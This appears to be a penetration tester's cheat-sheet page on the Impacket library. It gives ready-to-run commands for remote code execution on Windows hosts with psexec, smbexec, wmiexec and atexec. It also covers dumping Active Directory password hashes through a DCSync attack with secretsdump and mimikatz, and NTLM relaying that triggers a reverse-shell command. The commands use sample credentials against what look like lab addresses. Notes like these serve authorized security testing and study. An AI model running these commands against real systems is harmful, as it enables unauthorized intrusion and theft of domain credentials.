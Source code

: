 Impacket is a *collection of Python classes* for working with network protocols. Impacket is focused on providing low-level programmatic access to the packets and for some protocols (e.g. SMB1-3 and MSRPC) the protocol implementation itself.

Packets can be constructed from scratch, as well as parsed from raw data, and the object-oriented API makes it simple to work with deep hierarchies of protocols. The library provides a set of tools as examples of what can be done within the context of this library.

---
# RCE
With :-
- atexec.py
- psexec.py
- smbexec.py
- wmiexec.py
https://www.hackingarticles.in/remote-code-execution-using-impacket/

```sh
impacket-psexec 'pentest:P3nT3st!@10.10.10.152'
impacket-smbexec 'ignite/administrator:Ignite@987@192.168.1.105'
impacket-wmiexec 'ignite/administrator:Ignite@987@192.168.1.105' dir
python atexec.py ignite/administrator:Ignite@987@192.168.1.105 systeminfo
```

---
# Retrieve Password hashes (DCSync Attack)
If any user has a unique permission that *allows all Active Directory changes to be synced with that user account*, it will include **Password Hashes** too!
![[Pasted image 20230711000201.png]]

Knowing this, we can use another tool within `Impacket` called **secretsdump.py**. This will allow us to retrieve all of the password hashes that this user account (that is synced with the domain controller) has to offer.

```sh
impacket-secretsdump 'spookysec.local/backup:backup2517860@10.10.141.46'

# Get hash of only one user
impacket-secretsdump -just-dc-user [user] corp.com/jeffadmin:'BrouhahaTungPerorateBroom2023!'@192.168.50.70

# Locally
impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL -outputfile hashes

# Using mimikatz
lsadump::dcsync /user:corp\Administrator
```

---
# NTLMv2 Relaying
Get NTLMv2 hash of a local administrator on one machine and use it on another machine.

```sh
impacket-ntlmrelayx --no-http-server -smb2support -t [Target_IP] -c "powershell_reverse_shell command"
```
